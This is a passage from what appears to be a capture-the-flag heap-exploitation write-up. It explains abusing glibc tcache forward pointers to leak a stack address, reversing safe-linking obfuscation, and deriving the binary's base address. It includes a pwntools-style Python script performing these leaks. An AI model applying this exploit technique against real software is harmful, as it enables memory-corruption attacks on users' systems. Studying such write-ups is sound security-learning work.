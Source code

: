 Now, here’s where it gets fun.

When you allocate a chunk of a certain size and the corresponding **tcache bin** has **at least two chunks**, malloc:

1. Pops the **head** of the bin,
2. Updates the bin’s head to the value stored in the `fd` field of the freed chunk (which is located just after the size field in the chunk metadata).

<img src="/d1ff/images_limit/tcache_bins.gif" width="700" style="display: block; margin: auto;"  />

So if that `fd` field (the forward pointer) lies in memory **past the `limit`**, we can’t inspect it directly — but **malloc will still read it and update the bin head**, trusting the value that’s stored there. And then we simply **print the content** of the chunk (one which is allocated on tcache_bin itself)!

We exploit this behavior to leak a **stack address**, which we know can often be found in the **libc data section**. (I looked through the data section and didn't find any ELF pointers directly, but I did find **stack pointers**.)

*Here’s the catch: in modern glibc versions, **tcache pointers are obfuscated** for security. The `fd` pointer is XOR’d with a per-process secret when stored. So when glibc wants to update the bin head, it **de-obfuscates** the value using this secret before using it.*

Now, when we **sneak in a raw stack pointer** (i.e., un-obfuscated) into the chunk's `fd`, glibc tries to **de-obfuscate it anyway**, thinking it’s legit tcache data. This gives us a **corrupted value**, but since we control the inputs, we can **reverse this de-obfuscation manually** to recover the **original stack pointer**.

Once we’ve got a valid **stack leak**, it becomes trivial to locate a return address or saved register on the stack that points back into the **ELF binary** — allowing us to **leak the ELF base address**.

```python
 ######### leaking stack and elf address ##########
 
libc_argv = libc.address + 0x2046e0
stack_offset = 0x7ffe1ebbf2a8- 0x7ffe1ebbf258-8
print("libc_argv = ",hex(libc_argv))
create(14,0x28)
write_into(14,pack(libc_argv))
create(0,0xf8)
view(14)
r.recvuntil(b'Data: ')
temp = unpack(r.recv(6),'all')
stack_leak  = obfuscate(temp,libc_argv)
log.critical(f'stack_leak = {hex(stack_leak)}')

write_into(14,pack(stack_leak-stack_offset))
create(0,0xf8)
view(14)

r.recvuntil(b'Data: ')
temp = unpack(r.recv(6),'all')
elf.address  = obfuscate(temp,stack_leak) + 0x60ea2433c000 - 0x60ea2433d160
log.critical(f'elf.address = {hex(elf.address)}')
```

---